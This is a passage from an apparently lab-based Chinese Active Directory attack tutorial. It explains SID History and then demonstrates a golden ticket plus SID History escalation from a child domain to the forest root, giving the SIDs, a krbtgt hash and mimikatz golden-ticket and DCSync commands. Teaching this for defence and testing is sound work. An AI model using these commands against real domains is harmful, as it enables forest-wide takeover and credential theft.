 ### 2.黄金票据+SID History 获得林根域权限

> SID history 是在微软 Windows 服务器环境中用于身份验证和授权的一个重要概念，尤其是在 Active Directory (AD) 迁移过程中。
> 
> **SID的概念**:SID (Security Identifier) 是每个对象（用户、组、计算机等）在 Windows 系统中的唯一标识符。它用于标识特定的用户或组，系统通过 SID 来授予访问权限。当用户尝试访问文件或资源时，系统会检查其 SID 和访问控制列表 (ACL) 来确定是否允许访问。
> 
> **SID History 的作用**:当一个用户或组从一个域迁移到另一个域时，它们会获得一个新的 SID。问题是，目标域中的资源（如文件、文件夹、共享等）是基于旧域中的 SID 进行访问控制的，因此迁移后，用户可能无法访问原有资源。**SID history 的作用是为用户保留其旧的 SID，从而在新环境中依然可以访问原域中的资源，而无需重新配置访问权限.**
> 
> **工作原理**:当用户登录并尝试访问资源时，系统不仅检查其当前域中的 SID，还会查看用户的 SID history。如果 SID history 中的任何一个 SID 与资源的 ACL 匹配，用户将被授予访问权限。
> 
> **例如**：用户 A 从域 DomainA 迁移到域 DomainB。在迁移过程中，用户 A 获得了一个新的 SID，但同时保留了在 DomainA 中的旧 SID。用户 A 尝试访问一个仍然属于 DomainA 的文件，而该文件的权限基于用户 A 在 DomainA 时的 SID。SID history 中包含用户 A 的旧 SID，因此系统允许用户访问该文件

上面我们已经获得了子域 shanghai.xie.com 的域控制器权限和域管理员权限了，现在我们想通过已有的权限获得整个域林的控制权限。这里我们演示使用黄金票据+SID History 攻击来跨域横向获得林根域权限。

**使用黄金票据+SID History 攻击首先需要获取当前域 shanghai.xie.com 的域SID 以及林根域 xie.com 的 Enterprise Admins 的 SID**，这个通过 adfind 或者adexplorer 均可查询到，查询结果如下：

-  shanghai.xie.com 的域 SID 为：S-1-5-21-909331469-3570597106-3737937367
-  xie.com 的 Enterprise Admins 的 SID 为：S-1-5-21-1313979556-3624129433-4055459191-519

而 shanghai.xie.com 的 krbtgt 哈希在上面我们已经导出来了，为：17016f19a93e50c80860f32130fd600f

这里我们演示通过 mimikatz 执行如下命令进行黄金票据+SID History 攻击：

```
#生成林根域的黄金票据
kerberos::golden /user:administrator /domain:shanghai.xie.com /sid:S-1-5-21-909331469-3570597106-3737937367 /krbtgt:17016f19a93e50c80860f32130fd600f /sids:S-1-5-21-1313979556-3624129433-4055459191-519 /ptt
#导出林根域 xie.com 内 krbtgt 用户的哈希
lsadump::dcsync /domain:xie.com /user:xie\krbtgt /csv
```

如图所示，可以看到利用完成后，即可导出林根域 xie.com 的 krbtgt 用户哈希了！

![截图](59385834c6b069b3d5bc9b95b12bf653.png)
